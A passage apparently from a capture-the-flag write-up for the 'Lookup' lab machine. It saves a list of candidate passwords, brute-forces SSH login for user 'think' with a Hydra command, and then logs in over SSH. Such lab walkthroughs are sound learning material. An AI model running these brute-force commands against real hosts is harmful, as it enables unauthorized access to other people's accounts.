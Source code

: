 Save all the passwords to file `think_passwords`. One of them could be potential password for ***SSH access for user “think”***, so let's try brute force it with Hydra:

```shell
hydra -l think -P think_passwords lookup.thm -vV ssh -f 
```

***VOILA, we have a match!***

![](Images/hydra_think.png)

Let's try it...

```shell
ssh think@lookup.thm 
```

And ***YES***, we are logged in as user “think”!

![](Images/ssh_think.png)
